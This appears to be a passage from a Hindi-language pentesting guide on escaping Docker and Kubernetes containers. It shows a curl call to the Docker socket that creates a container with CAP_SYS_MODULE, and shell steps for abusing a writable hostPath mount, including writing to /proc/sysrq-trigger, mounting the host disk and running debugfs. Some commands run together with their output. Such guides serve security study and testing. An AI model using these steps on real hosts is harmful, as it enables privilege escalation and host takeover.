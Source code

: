## अनचेक्ड JSON एट्रिब्यूट

यह संभव है कि जब सिसएडमिन ने डॉकर फायरवॉल को कॉन्फ़िगर किया तो उसने API ([https://docs.docker.com/engine/api/v1.40/#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)) के किसी पैरामीटर के महत्वपूर्ण एट्रिब्यूट को **भूल गया** जैसे कि "**Capabilities**" जो कि "**HostConfig**" के अंदर होता है। निम्नलिखित उदाहरण में, इस मिसकॉन्फ़िगरेशन का दुरुपयोग करके **SYS_MODULE** क्षमता के साथ एक कंटेनर बनाने और चलाने की संभावना है:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
# लिखने योग्य hostPath माउंट

([**यहाँ**](https://medium.com/swlh/kubernetes-attack-path-part-2-post-initial-access-1e27aabda36d) से जानकारी) कंटेनर के अंदर, हमलावर अंतर्निहित होस्ट OS तक और अधिक पहुँच प्राप्त करने का प्रयास कर सकता है जो क्लस्टर द्वारा बनाई गई एक लिखने योग्य hostPath वॉल्यूम के माध्यम से होता है। नीचे कुछ सामान्य चीजें हैं जिन्हें आप कंटेनर के अंदर जांच सकते हैं ताकि आप इस हमलावर वेक्टर का लाभ उठा सकें:
```bash
### Check if You Can Write to a File-system
$ echo 1 > /proc/sysrq-trigger

### Check root UUID
$ cat /proc/cmdlineBOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300- Check Underlying Host Filesystem
$ findfs UUID=<UUID Value>/dev/sda1- Attempt to Mount the Host's Filesystem
$ mkdir /mnt-test
$ mount /dev/sda1 /mnt-testmount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
$ debugfs /dev/sda1
```
# कंटेनर सुरक्षा में सुधार

## Docker में Seccomp

यह Docker कंटेनर से बाहर निकलने की तकनीक नहीं है लेकिन एक सुरक्षा सुविधा है जिसका उपयोग Docker करता है और आपको इसके बारे में पता होना चाहिए क्योंकि यह आपको Docker से बाहर निकलने से रोक सकता है:

{% content-ref url="seccomp.md" %}
[seccomp.md](seccomp.md)
{% endcontent-ref %}
